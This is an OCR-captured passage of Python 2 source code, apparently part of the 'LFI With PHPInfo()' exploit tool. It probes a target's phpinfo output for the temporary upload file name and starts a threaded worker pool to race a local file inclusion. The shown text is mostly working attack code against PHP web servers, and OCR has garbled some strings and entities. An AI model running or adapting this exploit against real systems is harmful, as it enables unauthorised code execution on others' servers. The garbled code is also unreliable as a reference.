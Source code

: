 ```
                    self.event.set()
            except socket.error:
                return
def getOffset(host, port, phpinforeq):
    """Gets offset of tmp_name in the php output"""
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host,port))
    s.send(phpinforeq)
    d = ""
    while True:
        i = s.recv(4096)
        d+=i
        if i == "":
            break
        # detect the final chunk
        if i.endswith("0rnrn"):
            break
    s.close()
    i = d.find("[tmp_name] =&amp;gt")
    if i == -1:
        raise ValueError("No php tmp_name in phpinfo output")
    print "found %s at %i" % (d[i:i+10],i)
    # padded up a bit
    return i+256
def main():
    print "LFI With PHPInfo()"
    print "-=" * 30
    if len(sys.argv) &lt; 2:
        print "Usage: %s host [port] [threads]" % sys.argv[0]
        sys.exit(1)
    try:
        host = socket.gethostbyname(sys.argv[1])
    except socket.error, e:
        print "Error with hostname %s: %s" % (sys.argv[1], e)
        sys.exit(1)

    port=80
    try:
        port = int(sys.argv[2])
    except IndexError:
        pass
    except ValueError, e:
        print "Error with port %d: %s" % (sys.argv[2], e)
        sys.exit(1)

    poolsz=10
    try:
        poolsz = int(sys.argv[3])
    except IndexError:
        pass
    except ValueError, e:
        print "Error with poolsz %d: %s" % (sys.argv[3], e)
        sys.exit(1)

    print "Getting initial offset...",
    reqphp, tag, reqlfi = setup(host, port)
    offset = getOffset(host, port, reqphp)
    sys.stdout.flush()
    maxattempts = 1000
    e = threading.Event()
    l = threading.Lock()
    print "Spawning worker pool (%d)..." % poolsz
    sys.stdout.flush()
```